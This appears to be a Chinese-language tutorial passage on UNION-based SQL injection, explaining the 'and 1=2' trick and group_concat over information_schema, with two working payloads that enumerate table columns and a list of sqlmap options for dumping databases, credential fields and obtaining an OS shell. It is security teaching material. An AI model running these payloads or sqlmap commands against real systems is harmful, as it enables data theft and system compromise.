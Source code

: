 **原理解释**

`id = 1 and 1=2`
  - **目的**：让前一部分查询返回空结果（`1=2` 永远为假），这样 `UNION` 后的查询结果才会显示出来。
  - **攻击技巧**：绕过正常查询，使数据库只返回注入的 `UNION SELECT` 结果。

`table_schema`数据库名变量

`group_concat()`
  - **功能**：将多行数据合并成一个字符串，默认用逗号分隔。
  - **在这里的作用**：把 `information_schema.tables` 中的所有表名合并成一个字符串返回，方便攻击者一次性获取所有表名。

    1. column值。
```sql
?id=111 union select 1, group_concat(column_name) from information_schema.columns where table_schema = database() and table_name = 'users'--+

?id=111' union select 1, group_concat(column_name), 3 from information_schema.columns where table_schema = database() and table_name = "uagents"--+
``` 

### 其他方式

#### sql注入工具——sqlmap

`sqlmap -u "url" --batch --dbs`

```
-u 检测注⼊点

–-batch 所有选项默认

–-dbs 列出所有的库名

–current-user 当前连接数据库⽤户的名字

–current-db 当前数据库的名字

-D “mysql” 指定目标数据库为mysql

–tables 列出数据库中所有的表名

-T “user” 指定目标表名为’user’

–columns 列出所有的字段名

-C ‘username,password’ 指定目标字段

–-dump 列出字段内容

-r 从文件中读取HTTP 请求

–os-shell 在特定情况下，可以直接获得目标系统Shell

–level 3 设置sqlmap 检测等级 3

```
